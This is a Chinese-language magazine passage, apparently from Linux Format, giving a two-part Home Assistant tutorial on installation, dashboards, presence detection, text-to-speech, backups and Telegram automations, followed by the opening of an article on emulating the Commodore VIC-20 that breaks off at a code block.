智能家居和物联网（IoT）设备已经流行多年。遗憾的是，物联网在安全问题方面的名声并不太好。由于代码编写糟糕或安全防护不足，我们多次读到关于设备中预留了硬编码管理员级账户且未禁用的报道。Canonical 和微软在提供 IoT 平台时充分考虑了安全性。

在使用商业智能家居/物联网设备时，有两点至关重要。第一点是隐私。如果数据泄露导致你的个人数据公开，你会开心吗？第二点是可持续性。如果设备制造商决定停止该设备所依赖的网络服务，会发生什么？

大量的制造商、协议和通信方式使得以统一的方式使用所有这些系统变得十分困难。这就是 Home Assistant (www.home-assistant.io) 的用武之地。它的完整标语是“将本地控制和隐私放在首位的开源家庭自动化”。这是对这个惊人项目的完美描述，它将来自许多不同制造商和许多不同协议的智能家居设备结合在一起。Home Assistant 会尽可能将数据保存在你的本地网络中，并在需要时与第三方云产品集成。

在本文中，我们将研究如何安装 Home Assistant 及其基础运行配置。在本系列的第二部分中，我们将讨论如何使用该系统中稍微高级的功能，例如自动化。在 Raspberry Pi 和虚拟机上安装都足够简单，下面将分别简要介绍。

### Pi 机器

将软件镜像安装到 Micro SD 卡上的最简单方法是使用 Raspberry Pi Imager。可以通过 www.raspberrypi.org/software 下载。

下载完成后，将 Micro SD 卡插入计算机。使用 Imager 烧录镜像。在工具的 OS 区域选择 Home Assistant，在 Storage 区域选择 Micro SD 卡，然后点击 Write 按钮。务必选择正确的存储设备，否则错误的设备可能会被 Home Assistant 覆盖。

现在将 micro SD 卡插入 Raspberry Pi 并连接电源和以太网。几分钟内 Home Assistant 将启动并准备好进行配置。

### 虚拟机

或者，Home Assistant 也可以安装为虚拟机 (VM)。KVM、VirtualBox 和 VMware Workstation 的 VM 镜像可以从 Home Assistant 网站 (www.home-assistant.io/installation/) 下载。下载后，按照说明创建虚拟机。创建完成后，将其开启，几分钟内系统将启动并准备好进行配置。

要配置 Home Assistant，请打开浏览器并访问 http://homeassistant.local:8123。如果此方法无效，请尝试访问 http://\<IP_ADDRESS\>:8123。可以通过将显示器或电视连接到 Raspberry Pi 的 HDMI 输出，或者通过查看运行该软件的虚拟机的控制台输出，来查看 IP 地址。

输入所需详细信息以创建第一个用户账户。创建后，在下一个屏幕中为安装实例输入名称，在地图上选择位置并选择温度单位。在第三个屏幕中，选择你希望与 Home Assistant 项目共享的匿名程度。第四步是引导过程的地图，显示了在你的网络中检测到的设备列表。选择每个你希望配置的设备，然后输入所需详细信息。输入并配置好请求的信息后，选择 Finish 按钮退出向导。

在深入探讨之前，让我们看看我们地取得了哪些成果。首先，我们安装了 Home Assistant 并明确了其目标。其次，我们在 Raspberry Pi 或虚拟机上安装了软件，并完成了完整的引导过程，创建了用户账户并设置了网络中发现的项目。

> **快速提示**
>
> 该系统支持大量智能家居制造商，包括 Ikea Tradfri 灯具、Philips Hue 和 Unifi 网络控制器。在此了解更多信息：www.home-assistant.io/integrations。

### 设置静态 IP 地址

Home Assistant 操作系统运行着多个不同的组件：操作系统本身、Supervisor 和 Home Assistant。Supervisor 提供了一个管理层来管理操作系统，提供更新并运行容器，这些容器可以镜像 Home Assistant 能够通信的集成。由于它很可能会成为你网络中的永久组成部分，因此设置静态 IP 地址是一个好主意。

这可以通过使用 supervisor 来实现。转到 Settings 选项卡，然后在侧边菜单中打开 Configuration 选项卡。现在进入 Add-ons, Backups and Supervisor 区域，然后选择 System 选项。接着，选择 Configuration 选项卡。选中后，你会看到相关选项（IPv4 或 IPv6），将选项从 DHCP 更改为 static。根据需要输入 IP 地址、子网掩码、网关和 DNS 服务器的相关详细信息。完成后，等待一分钟左右，然后使用新的详细信息通过静态 IP 连接到 Home Assistant。

导航回 Add-ons, Backups and Supervisor 区域，显示的其它选项卡为 Add-ons 和 Backups。在 Add-ons 选项卡中，你会看到所有已安装插件的概览。这些插件可以从 Add-on Store 安装，包括广泛的功能，例如高级家庭 DNS 过滤、DHCP 服务器、MySQL 数据库服务器和 NodeRed（可用于与来自其他来源的数据进行交互）。

**Home Assistant**
正如稍后将讨论的，除了插件（Add-ons）之外，还可以通过集成（Integrations）为 Home Assistant 添加额外功能。插件是由 supervisor 管理的 docker 容器，可由 Home Assistant 核心团队成员或任何公众成员提供。集成与 Home Assistant 的联系更为紧密，并在每月发布版本中提供。

Backups 选项卡允许拍摄快照，如果升级或某些配置更改导致系统崩溃，可用其回滚设置或排除故障。最后，System 选项卡可以让你查看硬件使用情况以及 IP 地址设置，以及 RAM 和磁盘使用的概览，同时提供用于故障排除的视图日志。

### 配置你的设置

我们现在来看看一些其他的 Configuration 选项。在 Configuration 菜单中，可以更改各种条目。在这里可以找到 Devices and Services，其中存储了在引导体验期间发现的实体的详细信息。

在 Integrations 选项卡中可以设置大量其他集成。查看提供的选项，看看可以将什么添加到你的安装中。Devices 选项卡可用于查看网络中已配置的项目。有关设备（Devices）、实体（Entities）和服务（Services）的详细信息，请参阅引导部分（第 65 页）。

> **快速提示**
>
> Home Assistant 可以安装在大量平台上，包括 Raspberry Pi、Intel 硬件和其他虚拟机平台。更多信息可见下方链接：www.home-assistant.io/installation

### 设备、实体和服务

Home Assistant 是一个功能极其强大的工具，拥有一系列不同的概念，你需要熟悉这些概念才能充分利用该软件。

- **设备 (Devices)** 代表在网络上发现的物理事物——例如，一个加热恒温器或一个 Chromecast 设备。
- **实体 (Entities)** 代表这些设备的功能。例如，一个加热恒温器将具有指代加热是开启还是关闭、目标温度是多少以及当前温度是多少的实体。一个 Chromecast 设备将关联一个提供媒体播放的实体。
- **服务 (Services)** 用于向设备或实体发送信号以进行更改。例如，使用正确的服务可以将文本转语音（Text-to-Speech）消息发送到 Chromecast 设备，或者将某个东西开启。

实体具有类型，并按此方式命名：`TYPE.NAME`。这些类型的一些示例包括：
- `binary_sensor`：代表 True/False 状态。
- `numeric_state`：代表数值。
- `switch`：代表可以开关的东西。
- `media_player`：提供媒体播放选项。


# Linux Format 2023年度版

使设备和实体能够被分组到你房屋的各个房间中。

跳过一些将在后续文章中讨论的条目，我们来到了仪表板（Dashboards）。这些仪表板用于创建概览页面，可以在其中显示多种类型的数据。

“人员”和“区域”可用于追踪用户。这并不一定意味着要将家庭成员的位置追踪到米级精度，但它可能非常有用，例如，检测家人的手机是否在你的网络中。这随后可以触发一条欢迎他们回家的通知。在“配置仪表板”页面的最后一个部分用于查看各项变更的时间，以及重启系统和查看日志条目。

在左侧菜单中，“日志簿”和“历史记录”部分可用于查看实体随时间变化的记录。“概览”选项用于查看默认的 Lovelace 仪表板。



另一个值得介绍的有用部分是“状态”页面。可以通过“开发者工具”然后选择“状态”选项卡进入。开发者工具可能需要在“用户设置”页面中开启（通过点击右上角的用户名进入）。需要将高级功能切换为开启状态。开发者工具中的“状态”选项卡使你能看到所有实体的值。当变更发生时，这是一个快速查看数值的方法，且当系统中存在大量实体时，屏幕会自动更新。

接下来要讨论的是 Lovelace 仪表板。这些将是用于显示智能家居信息的仪表板。例如，作者概述的仪表板的一部分是运行 Home Assistant 的 Raspberry Pi 4 的状态概览。如果设备过热或出现常规电源问题，这是一个很有用的、需要偶尔登录查看的仪表板。

Lovelace 仪表板可以显示海量的数据类型，其中一部分示例可见于屏幕截图（右上角）。

### 编辑你的仪表板

我们现在将编辑一个 Lovelace 仪表板，然后向其中添加一些关于太阳运行的信息以及一些有用的快捷按钮。这将让你了解构建自定义仪表板所需的概念，并将其应用于你自己网络上的设备。

Lovelace 是 Home Assistant 内部用于构建仪表板的系统名称。它支持多个仪表板，并且它们可以以不同的方式设计。这非常有必要，因为这意味着可以为不同的屏幕尺寸设计不同的布局。

例如，你可以为手机设置一个仪表板，为平板电脑设置另一个。默认情况下，Home Assistant 会构建一个包含所有已添加项的仪表板。最近的一次更新意味着仪表板用户能够对数据项进行分类。通过这种方式，仪表板变得不再那么杂乱，因为默认情况下不再包含所有实体。

要创建新仪表板，请进入“配置”选项，选择“仪表板”，然后点击“添加仪表板”按钮。添加标题、从图标选择器中选择图标并相应地选择其他选项后，点击“创建”。在刚创建的仪表板旁边，选择箭头图标或“打开”按钮，即可打开新仪表板。

> **快速提示**
>
> Home Assistant 团队提供了关于他们如何使用发送给他们的任何已公布信息的说明。可以在此处查看：www.home-assistant.io/integrations/analytics。
>
> 在此仪表板上了解你的 Raspberry Pi 状态。

### 智能手机应用

无论使用手机还是笔记本电脑等大屏设备，通过 Web 浏览器与 Home Assistant 交互都是一种愉快的体验。Home Assistant 团队和社区还为 iOS 设备和 Android 提供了应用程序。这些应用与手机操作系统集成得非常好，并能将手机传感器提供给 Home Assistant，以便在 Lovelace 界面中显示。

此外，还可以设计一套就寝习惯，通过 Home Assistant 自动化，在你的手机充电且处于静音状态时关闭灯光。当智能手机应用在你的 Home Assistant 安装中注册后，Home Assistant 系统就可以利用手机的应用系统。例如，如果门铃响了，注册的 Home Assistant 摄像头可以拍摄一张照片，然后通过通知发送到你的手机。此外，还可以利用通知中向用户提问的功能，以便用户轻松地向 Home Assistant 发送响应，进而触发另一个自动化。

应用可以从 Play 商店或 App Store 下载，打开后可以通过向导配置以连接到你的 Home Assistant 服务器。

默认情况下，此仪表板将包含所有已添加到 Home Assistant 安装中的实体。要编辑仪表板，请选择三个点并点击“编辑”选项。第一次为仪表板选择此选项时，会显示一条消息，询问是否从空白仪表板开始。选择该选项并点击“接管控制权”。

此时你将看到一个处于编辑模式的空白仪表板。仪表板可以包含多个选项卡或视图，每个选项卡都可以拥有自己的名称或图标（可从中选择）。选项卡还可以设置为不同的模式。要编辑选项卡选项，请点击名称/图标旁边的铅笔图标。

### 选择你的视图

视图类型选项有：砌体（Masonry）、侧边栏（Sidebar）或面板（Panel）。这些分别指的是：多个卡片分布在屏幕上的系统；一个具有两列（一宽一窄）的侧边栏；以及面板模式（允许在该屏幕上显示一个卡片）。后者对于像自助服务机（kiosk）或平板设备这类设备非常有用。在选项卡的选项中，“徽章”部分可用于在屏幕顶部添加小图标以显示数值，例如温度或开关状态。

最后，“布局”选项允许用户为特定用户隐藏内容。也许只有高级用户才应该看到遥控器的电池状态，或者你可能不想让孩子能够开关灯。更改用户的设置，然后选择“保存”。

向仪表板添加元素的下一步是添加所谓的“卡片”。这些卡片可以包含单条信息或多个元素。如果单独添加，Lovelace 会自动决定放置位置。不过，你也可以完全控制放置位置。通过使用“水平堆栈”和“垂直堆栈”卡片，卡片可以按照定义顺序依次排列。此外还有一个“网格”卡片，可用于创建表格式视图。当徽章部分被禁用时，这非常有用。

点击“添加卡片”按钮来设计仪表板。设计工具分为两个选项卡：“按卡片”和“按实体”。“按卡片”用于寻找你想要显示的卡片类型。“按实体”用于在添加时寻找你想要显示的实体。使用“按实体”部分时，你首先搜索一个实体，然后会显示合适的选项。两种方式都能达到同样的效果。任务表单的底部是配置项。我们要为仪表板做的第一件事是添加太阳的位置。在选中“按实体”选项卡的情况下，在搜索框中输入 `sun`。当 `Sun` 显示时，勾选其旁边的复选框并点击“继续”。



> 我们在 Home Assistant 中设计 Lovelace 仪表板的首次尝试


随后将其添加到 Lovelace UI 中。

我们要添加的第二项是一系列按钮，它们可以让你快速访问另一个网站和 Home Assistant 的配置页面。选择“添加卡片”按钮。选择“按钮卡片”。现在选择“水平堆栈”。再次点击“添加卡片”按钮并选择“水平堆栈”。接着选择“按钮卡片”。在出现的选项中，删除任何自动填充的“实体”值，并将“标签名称”选项改为“URL 地址”。输入 URL 的名称，并在 URL 操作框中输入 `www.linuxformat.co.uk`。

注意“添加操作”选项，如果按钮被长按，可以使用此选项设置第二个操作。选择好选项后，点击“保存”。现在编辑最后一个卡片，使用加号选项添加另一个按钮条目。这次将“名称”字段设置为 `Configuration`，“标签名称”设置为 `Navigation`，“导航路径”设置为 `/config`。最后，保存卡片的选项，然后通过右上角的叉号退出仪表板的编辑模式。

要尝试不同的视图模式，请编辑选项卡的设置并更改视图模式。现在全部完成后，你的仪表板包含了一个显示太阳位置的卡片和几个可用于执行有用任务的按钮。按钮可用于触发服务和切换开关。卡片还可以展示随时间变化的详细信息、查看实时摄像头画面、显示带有叠加图标的平面图以及许多其他有用功能。

我们现在已经安装了 Home Assistant，解释了一些概念，并演示了构建仪表板所需的操作。在下个月的文章中，我们将探讨一些更高级的概念。在此期间，祝你在实验这个惊人项目时玩得开心！

> 这仅仅是 Lovelace 卡片功能的冰山一角。

### 自动化购买 LINUX FORMAT
立即订阅：http://bit.ly/LinuxFormat


### HOME ASSISTANT

来源：www.home-assistant.io

### 创建自动化与通知

### Matt Holder 探讨 Home Assistant 的自动化与通知功能，旨在让我们的家尽可能地变得“智能”。

> 我们的专家
>
>
> Matt Holder 关注开源方法论已超过二十年，只要有可能，他会在任何地方使用 Linux 和其他相关工具。

家庭自动化使人们能够从中心位置访问家庭自动化设备的数据。它也可以访问云端系统，但只要有可能，数据都会保留在本地局域网（LAN）中。在 LF287 中，我们介绍了如何安装和配置系统，以及如何设置一个包含天气基本信息的仪表盘。在第二部分中，我们将为了安全起见创建定期快照，并创建自动化以及添加用户。

蓝图（Blueprints）是 Home Assistant 最近新增的功能，用户可以通过它将自己的脚本或自动化分享给其他用户。这使得复杂的自动化可以通过简单的几次点击即可提供给他人。可以通过打开“配置”选项并选择“蓝图纸”来访问蓝图。从那里可以打开蓝图“商店”。列表中的每个蓝图都有一个按钮，允许将其导入并配置为在你的实例中运行。

场景（Scenes）位于“配置”选项菜单下，允许通过一次自动化或按下一次按钮来控制一组项目。例如，如果你想在客厅设置一个观影场景，你可以将百叶窗设为关闭，将灯光状态设为所需状态，然后一次性控制所有设备。要创建场景，首先将所有设备设置为每次使用该场景时希望使用的值。然后，通过导航至“配置” > “自动化与场景” > “场景” > “添加场景”来开启场景主题。你可以在加载的窗口中选择设备。

> 快速提示
> 
> 有关自动化的更多详细信息，请参阅 www.home-assistant.io/docs/automation。

### 创建场景

脚本（Scripts）与场景类似，但几乎可以用于执行任何顺序步骤的序列。例如，可以设置一个让灯光闪烁的脚本。该脚本随后可以从多个位置访问，例如 Lovelace 仪表盘中的按钮点击。可以通过导航至“配置” > “自动化与场景” > “脚本” > “添加脚本”来设置脚本。在打开的对话框中，只需给脚本起个名字并指定图标，然后设置需要执行的事件序列。

辅助元素（Helpers）可以被视为 HTML 元素中的表单。它们可以被添加到 Home Assistant 中，其值可用于自动化，也可以作为元素显示在 Lovelace 仪表盘上。辅助元素可以采用开关（on/off）、文本输入、折叠数字输入、温度、日期/时间框、下拉列表、计数器和定时器的形式。例如，可以使用一个仪表盘来配置恒温器，这样可以在一个位置编辑设定的温度，并将该值用于其他地方。要创建辅助元素，请导航至“配置” > “自动化与场景” > “辅助元素” > “添加辅助元素”。

可以为 Home Assistant 提供内联用户，以便家庭中的多个成员能够访问系统。这些账户可以被赋予对管理功能的全部或有限访问权限，并可以禁用某些 Lovelace 仪表盘。用户在“配置” > “人员和区域” > “用户”对话框中创建。创建新用户时，管理员需选择该用户是否可以从本地网络之外登录，以及是否应设为管理员。要限制对仪表盘的访问，请在相应的用户设置中，选择编辑每个选项卡（也称为视图）的选项，并根据需要为新用户启用或禁用。

在讨论配置部分的这个区域时，我们还应该探讨“人员（People）”。这个部分是我们设置想要追踪的人员的地方。这并不意味着任何人都能知道某个人的精确位置详情，而可能仅仅意味着知道他们的手机何时首次加入家庭 Wi-Fi。这些信息随后可用于欢迎该成员回家，或执行其他自动化，例如在日落后某人首次到家时打开灯光和窗帘。存在检测（Presence detection）支持一系列集成，包括向 IP 地址发送 ping 包、通过 App 获取 GPS 位置以及路由器集成。

## 关注对象

在创建新“人员”之前，我们需要注册一个可用于追踪他们的设备。为此，我们首先需要编辑 `configuration.yaml` 文件。YAML 是 Home Assistant 使用的一种标记语言，遵循现有条目的风格至关重要，否则你会面临严重的配置错误。YAML 对空格极其敏感。首先，访问“配置” > “加载项、备份与监督者”。选择“配置” > “加载项商店”，并在三个点（菜单）下选择“更新存储库”进行更新。确保已添加官方的 Home Assistant 社区存储库，如果没有，请使用以下 URL 添加新存储库：https://github.com/home-assistant/repository

存储库添加完成后，搜索 Visual Studio Code Server 并将其添加到 Home Assistant。这将在你的实例中添加一个 VSCInstance 资源，从而可以简单地编辑 Home Assistant 配置文件。VSCInstance 编辑器可以通过“加载项”页面启动，也可以在侧边栏添加图标。选择 VSCStore，然后选择 `configuration.yaml` 文件。在文件底部，添加以下 YAML 代码片段：`device_tracker.PHONE_NAME: IP_ADDRESS`

```yaml
#### Sensor to determine if phone is on network
device_tracker:
  - platform: ping
    hosts:
      HOME_PHONE_NAME: IP_ADDRESS
```

现在需要通过选择“配置” > “设置” > “重启”来重启 Home Assistant。重新加载后，刷新浏览器，然后导航至“配置” > “人员和区域”，选择代表该用户的人员，然后选择存在检测部分，选择代表你手机的实体。ping 的默认间隔时间为五分钟，因此你的手机需要离开网络至少五分钟，该实体的状态才会从“在家（Home）”变为“不在家（not_home）”，反之亦然。

在研究“人员（People）”与“人物（Person）”时，讨论人员（People）与用户（Users）之间的区别也很重要。用户（Users）是可用于登录 Home Assistant 的账户。人员（People）是与系统用户中存在的用户 ID 绑定的人物。当从“用户”选项卡添加用户时，需要输入姓名、用户名和密码。另请注意，可以通过实体判断用户是注册为普通用户还是管理员，并且应仅允许管理员从本地网络之外登录。在这个配置页面中还有一个“区域（Zones）”条目，这里可以选取你的位置，以便用于基于存在感的自动化。

在进入自动化之前，我们需要执行另外三个步骤才能使用集成项。

- 第一件事是添加天气服务。这可以通过“配置” > “设备与服务”菜单完成。选择“添加集成”并搜索 weather。选择 Open Weather Map。按照屏幕上的说明操作（参阅与 API 免费层级相关的 read me 文本）。完成后，将有一组新的二进制文件与该天气实体相关联，你可以通过集成卡片内的“服务”页面查看。

- 第二项任务是添加网络中的任何 Google Nest/Home 设备。我们将参考文章中的说明来创建语音公告。同样地，从“集成”页面添加 Google Cast 集成并按照指示进行配置。

- 最后，重复之前的步骤打开 VSCInstance 文本编辑器并编辑 `configuration.yaml` 文件。复制下面的文本，这将配置“家（Home）”。

Home Assistant、监督者（Supervisor）和操作系统的可用更新可能会显示在“配置”页面的顶部。

> **快速提示**
> 
> Home Assistant 在自动化的定义中支持表情符号（emojis），这使得通过在名称开头使用相似的图标来对类似自动化进行分组变得非常容易。

### NABU CASA 案例

Nabu Casa 是由 Home Assistant 创始人成立的一家公司。它通过雇佣一些核心开发人员为该项目提供资金支持。Nabu Casa 也是一项服务的名称，任何人都可以通过支付少量的月费来使用。在 Nabu Casa 注册账户时，你可以注册你的 Home Assistant 实例。这提供了一种无缝的方式，让你在离开家庭网络时也能连接到家庭实例。它通过 App 或 Web 浏览器提供访问方式，解决了在路由器上开放端口或直接指向网络设备所带来的安全顾虑。

除了安全的远程访问外，它还提供了一种更无缝的方式将你的实例与 Amazon Alexa 或 Google Nest 产品链接。如果将自己的实例注册到这些服务中，用户需要使用“Home Assistant”前缀来提问，而 Nabu Casa 集成则不需要。Nabu Casa 的另一个便捷功能是可以使用更自然的人声 TTS 语音。要配置此项，只需导航至“配置”并按照 Home Assistant World Cloud 部分的步骤操作。


### 快速提示

要使用模板创建自定义传感器，请参阅 www.home-assistant.io/docs/integrations/template。

使 Assistant 能够使用 Google 的文字转语音 (TTS) 服务：

```yaml
#### Text to speech
tts:
  - platform: google_translate
```

保存配置文件，然后重启 Home Assistant。

### 为大众打造的自动化

我们将创建两个自动化。首先，每小时播报一次天气情况；其次，创建一个与 Telegram 集成的自动化，以便在远离家时接收通知。

在配置自动化时，需要考虑三个要素：触发器 (triggers)、条件 (conditions) 和动作 (actions)。触发器是导致 Home Assistant 开始执行自动化的项目。触发器的一个例子是：当 Home Assistant 检测到某个人员（被识别为与某部手机相关联）的状态从 `not_home` 变为 `home` 时。

条件用于限制自动化的动作是否应该运行。沿用上面的例子，可以设置一个条件，使自动化仅在 09:00 到 20:00 之间运行。最后，动作被设定为开启或关闭开关、设置辅助项 (helpers) 的值、发送通知等。结合上述组合，我们可以配置一个自动化，当有人回家时，通过 Google Nest Mini 播报欢迎回家。

在配置好天气集成后，我们现在可以使用这些信息，每小时向 Google Nest/Home 设备发送一条包含温度及其他相关天气信息简述的通知。首先，我们需要记录各种天气信息的实体名称。这一步并非总是必需，但在本例中我们需要使用模板。模板允许你从一个或多个实体创建传感器，或者组合多种情况（例如文本意图）。导航至 “配置” > “设备与服务”，并链接 `OpenWeatherMap` 集成中的实体。记录实体名称，例如 `sensor.openweathermap_temperature` 和体感温度 `sensor.openweathermap_feel_like`。

记录好这些实体名称后，在 “配置” > “自动化与场景” 中选择 “创建自动化” 来创建一个新自动化。给你的自动化起一个响亮的名字。在打开的界面中，输入一个具有描述性的名称。在触发器部分，从触发器类型下拉菜单中选择 “时间模式 (Time Pattern)”。在时间模式下，在小时 (Hour) 框中分别输入 `/0` 和 `0`。在条件部分，添加一个条件并选择 “时间 (Time)”，然后设置自动化应当运行的理想日期和时间。

现在，我们来定义自动化应该执行的操作。这可以是任何操作，从开启电灯、发送心跳值到更改辅助项的值。首先，将动作类型更改为 “调用服务 (Call Service)”。在服务框中选择 `tts.google_translate_say`。选中后，在实体框中选择相关的 Google Home/Nest 设备。在服务消息框中输入要播放的消息。

使用这种添加消息的方法，我们很快就能复用来自 OpenWeather Map API 的值。处理这个问题有两种方法。一种是在配置文件中创建一个模板传感器。另一种是，在服务消息框的顶部，选择该自动化，点击三个点图标并选择 “在 YAML 中编辑”。将文本替换为以下内容（`sensor.openweathermap_name` 可能需要更改以匹配你的实体名称）。

```yaml
service: tts.google_translate_say
data:
  entity_id: media_player.NAME_OF_DEVICE
  message: >
    "Temperature is {{states('sensor.openweathermap_temperature')}} degrees Celsius and it feels like {{states('sensor.openweathermap_feel_like')}} degrees Celsius."
```

此 YAML 调用将触发文字转语音服务，并将包含文本和两个实体的自定义消息发送到相关设备。

所有配置的自动化都可以在一个位置查看，并且为了测试目的，可以手动运行这些动作。

### 备份我们的系统

确保家庭自动化设置尽可能可靠的关键是定期备份。Home Assistant 的新安装提供了从备份恢复的选项，因此数据恢复并不令人担心，而且非常简单。创建备份很容易，直接在 Home Assistant 内部即可完成，而使用可安装的加载项 (add-on) 则更加简单。

要创建 Home Assistant 的备份，请导航到 GUI 左侧的配置选项卡，然后选择 “加载项、备份和监督者 (Add-ons, Backups and Supervisor)” 选项。选中后，会出现一个带有 “创建备份” 按钮的备份选项卡。加载项商店中提供了一个名为 “Home Assistant Google Drive Backup” 的加载项，它可以创建并管理备份，并自动上传到你的 Google Drive。

要安装该加载项，请导航至 “加载项、备份和监督者” 选项，选择 “加载项”，然后点击 “加载项商店”。在右上角的搜索框中搜索该加载项，然后选择 “存储库 (Repositories)”。输入以下 URL (https://github.com/sabeechen/hassio-google-drive-backup) 然后点击 “添加”。接着点击叉号关闭存储库选项。现在，在加载项列表的底部会出现一个名为 “Hassio Google Drive” 的新条目。

选择安装该加载项以及在启动时运行的选项。开启看门狗 (watchdog) 和自动更新。安装完成后，选择该加载项并按照安装向导授权访问你的 Google 账户。授权后，研究其他选项，这些选项允许调度备份频率、时间以及保留的备份数量。

最后，我们将更详细地研究 Telegram 集成，它允许在局域网之外进行通信。不仅可以发送通知，Home Assistant 还可以配置为响应来自 Telegram 的消息，并根据发送的指令触发自动化。

在设置 Telegram 集成时，首先确保你的手机上安装了该应用。完成后，打开应用并使用搜索功能寻找 “BotFather”。选择 BotFather 并发送 `/newbot` 作为你的第一条消息。按照 BotFather 提供的说明输入名称和用户名。完成后，BotFather 将返回一个访问令牌 (access token)，将其输入到 Home Assistant 配置中。之后，你可以在应用中搜索并选择 BotFather，然后点击 “开始 (Start)” 按钮。在配置 Home Assistant 集成之前，我们需要找到我们的聊天 ID (chat ID)。这可以通过在 Telegram 应用中搜索 `@userinfobot` 来实现。找到这个机器人并点击 “开始” 按钮，随后将返回聊天 ID。

使用 VSCode 编辑器，打开你的 `configuration.yaml` 并输入以下内容，请确保将 `chat_id` 和 `api_key` 替换为从 BotFather 和 GetBotIds 机器人获取的详细信息。`Notifier` 名称应替换为调用通知时所使用的名称。`Telegram` 可能是一个合适的名称。

### Telegram 机器人配置

```yaml
telegram_bot:
  - platform: polling
    api_key: YOUR_API_KEY
    allowed_chat_ids: [
      - ADD_CHAT_ID_HERE
    ]
```

### BotFather 提供的 Telegram 通知支持

```yaml
notify:
  - platform: telegram
    name: NOTIFIER_NAME
    chat_id: ADD_CHAT_ID_HERE
```

输入这些详细信息后，重启 Home Assistant 并打开 “开发者工具 (Developer Tools)”。在 “服务 (Services)” 选项卡中输入 `notify.NOTIFIER_NAME`，并在消息字段中输入一条消息。调用服务后，相应的消息应发送到你的 Telegram 手机端。

利用这个新的通知服务，现在可以构建将警报发送到 Telegram 的自动化，这些警报可以在家庭网络之外接收。但 Telegram 不仅能用于接收通知，Home Assistant 也可以用来接收来自 Telegram 的消息。为了再次测试这一点，从 “开发者工具” 菜单中选择 “事件 (Event)” 选项卡，在 “要订阅的事件” 框中输入 `telegram_command` 并点击 “开始监听”。现在打开你的机器人并输入以下内容：

`/linuxformat sending a message`

现在回到 Home Assistant，屏幕上会出现一些 JSON 数据。这将包含发送给 Home Assistant 的命令（即 `/linuxformat`）、参数以及发送的聊天 ID。命令和参数都可以在自动化中使用。在本篇文章的最后步骤中，我们将创建一个自动化，通过 Google Nest 设备朗读来自 Home Assistant 的文本。

在配置的 “自动化” 部分，创建一个空白自动化并为其命名。在 “触发器” 部分，从触发器类型中选择 “事件 (Event)”，并在事件类型框中输入 `telegram_command`。在事件数据中，如果需要设置某些条件，请输入 `command / request` 和 `speak`。然后，在 “动作” 部分，选择 “调用服务” 菜单，选择 “在 YAML 中编辑” 并输入：

```yaml
service: tts.google_translate_say
data:
  entity_id: media_player.NAME_OF_DEVICE
  message: >
    Message from {{ trigger.event.data["from_name"] }}: 
     {{ state }} 
```

当使用 `/speak` 作为消息开头从 Telegram 发送消息时，Home Assistant 将监听此事件，然后通过 Google Home 设备播报消息中的文本。这比本文涵盖的内容有用得多，通过简单的文本模板格式化，还可以发送图像和视频（例如，每小时发送一次监控摄像头的快照，或在按下门铃时发送）。在发送消息时还可以使用自定义键盘，以便将回复发送回 Home Assistant，随后通过自动化执行相应操作。欲了解更多信息，请访问 www.home-assistant.io/integration/telegram/

在本文中，我们涵盖了 Home Assistant 以及通用家庭自动化的一些重要概念，并使用不同的集成创建了自动化。在系列的第三部分，我们将涵盖能源监控仪表板，以及如何使用智能插座收集数据，从而在洗衣机/洗碗机完成洗涤周期时发送警报。我们还将研究封装的 VPN 网关的使用，以及如何使用移动应用和 RF 标签来触发各种自动化。下个月见！ 📅


### 模拟 Commodore VIC-20

Les Pounder 将带我们回到 20 世纪 80 年代，去探索柯克柯克船长在不在企业号（USS Enterprise掌舵时使用的是哪台计算机。

> VIC-20 是一款经典设计：诚然，按照今天的标准来看它可能并不出众，但在 80 年代的科技水平下，这个“面包盒”曾是一个标志。

回到 1980 年，当我们热切期待《帝国反击战》时，Commodore 公司发布了其全新的 8 位家用计算机 VIC-20（在德国被称为 VC-20，在日本被称为 VIC-20A）。它主要由运行频率为 1.023MHz (PAL) 或 1.02MHz (NTSC) 的 MOS 6502 处理器驱动，配备 5KB 的模式 RAM，并可通过基于卡带的扩展单元进行升级。

VIC-20 以“友好计算机”为营销卖点，打破了全能型 Commodore PET（见 LXF297）的模式。相反，我们现在只需花 300 美元（而非 3,000 美元），就能拥有一台可以使用现有电视机作为屏幕的“面包盒”——这在 80 年代的计算场景中极具代表性。VIC-20 旨在成为家庭的一部分。它通过超级市场销售，使其成为了蓬勃发展的视频游戏市场的主打产品。Commodore 公司采取了一个大胆的举措，聘请了（以《星际迷航》闻名的）威廉·夏特纳担任 VIC-20 的发言人。夏特纳在系列广告中极力称赞 VIC-20 的优点，将其描述为“ 80 年代的奇迹计算机”。

VIC-20 的市场定位比 PET 更具成本效益，并直接瞄准了 Apple II 的主导地位。

到 1985 年，VIC-20 已显得过时。随着 1982 年 Commodore 64 数量的激增，许多人转向了 C64，因为它拥有更好的音效和不断增长的游戏库。但 VIC-20 为一系列“面包盒”风格的 Commodore 计算机奠定了基础，包括其继任者 Commodore 16。

### 模拟 VIC-20

得益于 Versatile Commodore emulator（简称 VICE），模拟 Commodore VIC-20 非常简单。在我们第一篇复古模拟专题（LXF297）中，我们就全程使用了 VICE 来模拟 VIC-20 的继任者 Commodore 64。

VICE 确实非常通用：它可以在 Linux、Windows、macOS、OS X、QNX 甚至 Amiga 等多样化的平台上模拟 VIC-20、Commodore 64、Commodore 128、Commodore PET 和 Commodore Plus/4！VIC-20 可以通过 Ubuntu 的软件仓库安装，这也是我们旅程的起点。

打开终端并运行以下命令来使用 Ubuntu 仓库安装 vice。

```bash
$ sudo apt update
$ sudo apt install vice
```

下一步是下载三个文件。第一个是 Commodore 内核（手册中称为 Kernal），然后我们需要包含 BASIC 解释器的 BASIC ROM。最后，我们需要字符生成器（CHAR ROM），它将 ASCII 值转换为可以显示在屏幕上的字符。

在运行 VICE 时，我们预测你会尝试输入 `vice`。但实际上，我们需要在命令行中通过几个开关运行 vice，以加载内核 ROM、BASIC ROM 和字符 ROM。请确保你在这些文件所在的同一目录下，或者指定完整路径：

```bash
